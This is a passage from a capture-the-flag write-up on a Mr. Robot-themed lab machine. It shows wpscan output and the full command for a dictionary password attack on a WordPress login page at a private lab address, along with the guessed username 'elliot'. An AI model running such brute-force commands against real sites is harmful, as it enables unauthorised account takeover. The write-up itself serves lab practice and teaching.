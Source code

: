 ```bash
[+] Performing password attack on Wp Login against 1 user/s
Trying admin / Year2011201020092008200720062005200420032002200120001999199819971996199519941993199219911990198919881987198619851984198319821981198019791978197719761975197419731972197119701969196819671966196519641963196219611960195919581957195619551954195319521951195019491948194719461945194419431942194119401939193819371936193519341933193219311930192^Cying admin / symptoms Time: 00:06:57 <==                                                                                             > (29965 / 858160)  3.49%  ETA: 03:12:16
[i] No Valid Passwords Found.

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.                                                   > (29967 / 858160)  3.49%  ETA: 03:12:16
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Tue May 26 07:51:13 2020
[+] Requests Done: 30418
[+] Cached Requests: 494
[+] Data Sent: 17.245 MB
[+] Data Received: 116.827 MB
[+] Memory used: 289.367 MB
[+] Elapsed time: 00:07:04

Scan Aborted: Canceled by User
```

The more time I spent on this machine, the more I started seeing similarities with the [FristiLeaks machine](https://holstrater.github.io/fristileaks/) machine I gained access to a while ago. Both machines have a lot of CTF-like features, which usually require you to recognize small hints and view things in a broader context. Reading back [my earlier write-up](https://holstrater.github.io/fristileaks/), I decided to simply try `mrrobot` as a username. Once again, no luck.

I then tried `elliot` (the name of the main character in the TV show) and finally, I found a password match. The password match was found almost all the way at the bottom of the `.dic` file too, so reversing the order of the dictionary attack turned out to be a good idea after all:

```bash
kali@kali:~/Downloads$ wpscan --url http://192.168.56.120/wp-login.php -U 'elliot' -P fsocity_reverse.dic
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _  |  _ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.7.6
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
[+] URL: http://192.168.56.120/wp-login.php/
[+] Started: Tue May 26 08:02:21 2020

Interesting Finding(s):

[+] http://192.168.56.120/wp-login.php/
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Powered-By: PHP/5.5.29
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
```